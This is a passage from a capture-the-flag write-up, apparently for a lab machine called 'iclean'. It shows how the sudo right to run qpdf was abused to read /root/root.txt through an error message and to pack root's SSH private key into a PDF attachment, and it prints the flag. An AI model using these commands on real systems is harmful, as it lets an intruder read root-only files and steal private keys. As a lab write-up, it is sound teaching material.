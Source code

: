 Basic enumeration in the `context` of `consuela` showed that she was able to execute `/usr/bin/qpdf` using `sudo`.

```c
consuela@iclean:~$ id
uid=1000(consuela) gid=1000(consuela) groups=1000(consuela)
```

```c
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

## Privilege Escalation to root

The quickest way to grab the `root.txt` was by forcing `qpdf` to reading it and to print a random `.pdf` file.

- [https://qpdf.readthedocs.io/en/stable/cli.html](https://qpdf.readthedocs.io/en/stable/cli.html)

```c
consuela@iclean:~$ sudo /usr/bin/qpdf @/root/root.txt out.pdf
[sudo] password for consuela: 
qpdf: open ac892fa75bff3c762e3d67dabfd447d8: No such file or directory
```

## root.txt

```c
ac892fa75bff3c762e3d67dabfd447d8
```

## Post Exploitation

Since only getting the `root.txt` is never enough we put a little bit effort in reading a potential `SSH Key` in the `home directory` of `root` and got lucky indeed.

- [https://qpdf.readthedocs.io/_/downloads/en/stable/pdf/](https://qpdf.readthedocs.io/_/downloads/en/stable/pdf/ )

```c
consuela@iclean:/tmp$ sudo /usr/bin/qpdf --empty --add-attachment /root/.ssh/id_rsa --mimetype=text/plain -- root.pdf
```

```c
consuela@iclean:/tmp$ sudo /usr/bin/qpdf --list-attachments root.pdf
id_rsa -> 5,0
```
